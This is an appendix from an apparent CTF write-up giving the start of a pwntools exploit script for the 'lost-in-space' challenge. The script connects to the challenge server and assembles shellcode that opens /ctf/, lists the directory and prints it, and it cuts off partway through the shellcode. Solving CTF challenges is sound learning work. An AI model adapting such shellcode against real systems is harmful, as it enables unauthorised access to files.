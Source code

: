 # Appendix A - exp.py
{% capture solve_py %}
```python
#!/usr/bin/python3

from pwn import *
# from ctypes import CDLL
import time


context.binary = bin_name = "./lost-in-space"
context.terminal = ["tmux", "splitw", "-h"]

elf = ELF(bin_name)


def connect():
    if args.REMOTE:
        nc_str = "nc lost-in-space.ctf.maplebacon.org 1337"
        _, host, port = nc_str.split(" ")
        p = remote(host, int(port))

    else:
        p = process(bin_name)
        if args.GDB:
            gdb_script = """
            """
            gdb.attach(p, gdb_script)

    return p


def main():
# init state: rdx = rip, current location
# everything else is cleared
# r10 -> vis counter
# r11 -> vis array

    f_name = b"/ctf/".ljust(8, b"\x00")
    # list /ctf/
    stage2 = asm(f"""
  /* push "/ctf/" */
  mov rax, {u64(f_name)}
  push rax
  /* call open("rsp", 0, 0) */
  push 2 /* (SYS_open) */
  pop rax
  mov rdi, rsp
  xor esi, esi /* 0 */
  cdq /* rdx=0 */
  syscall
  /* call getdents("rax", "rsp-0x400", 0x400) */
  mov rdi, rax
  push 0x4e /* (SYS_getdents) */
  pop rax
  mov rsi, rsp
  sub rsi, 0x400
  xor edx, edx
  mov dh, 0x400 >> 8
  syscall
  /* call write(1, "rsp-0x400", "rax") */
  push 1
```